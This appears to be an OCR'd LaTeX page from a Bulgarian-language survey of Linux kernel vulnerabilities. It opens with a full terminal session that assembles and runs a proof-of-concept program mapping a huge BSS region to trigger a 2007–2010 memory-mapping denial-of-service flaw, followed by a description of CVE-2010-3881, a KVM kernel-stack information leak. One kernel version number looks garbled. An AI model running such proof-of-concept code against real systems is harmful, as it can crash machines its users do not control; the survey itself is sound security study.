 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\begin{verbatim}
$ uname -m
x86_64
$ cat /proc/sys/vm/mmap_min_addr
65536
$ cat install_special_mapping.s
section .bss
    resb BSS_SIZE
section .text
    global _start
    _start:
        mov     eax, __NR_pause
        int     0x80
$ nasm -D__NR_pause=29 -DBSS_SIZE=0xfffed000 -f elf
       -o install_special_mapping.o install_special_mapping.s
$ ld -m elf_i386 -Ttext=0x10000 -Tbss=0x11000 
       -o install_special_mapping install_special_mapping.o
$ ./install_special_mapping &
[1] 14303
$ cat /proc/14303/maps
0000f000-00010000 r-xp 00000000 00:00 0       [vdso]
00010000-00011000 r-xp 00001000 00:19 2453665 /home/taviso/install_special_mapping
00011000-ffffe000 rwxp 00000000 00:00 0       [stack]

\end{verbatim}
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007-07-19
  	\item Добива публичност: 2010-11-13
    \item Оправен: 2010-12-15\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=462e635e5b73ba9a4c03913b77138cd57ce4b050}}
\end{itemize}


\section{CVE-2010-3881 CVSS Score 1.9}
\subsection{Описание}
\paragraph{}
arch/x86/kvm/x86.c в Linux ядрата преди 2.3.36.2 не инициализира някои членове на структурите \textit{kvm\_vcpu\_events}, \textit{kvm\_debugregs}, \textit{kvm\_pit\_state2} и \textit{kvm\_clock\_data}, което позволява обикновен потребител евентуално да получи важна информация от стека на паметта на ядрото чрез операции за четене върху /dev/kvm устройството\footnote{KVM - Kernel-based Virtual Machine - пълно решение за виртуализация на Linux за x86 хардуер. Съдържа разширение - Intel VT или AMD-V. Състои се от модул към ядрото \textit{kvm.ko} и специфични за процесора разширения \textit{kv-intel.ko} и \textit{kvm-amd.ko}}.
\end{document}
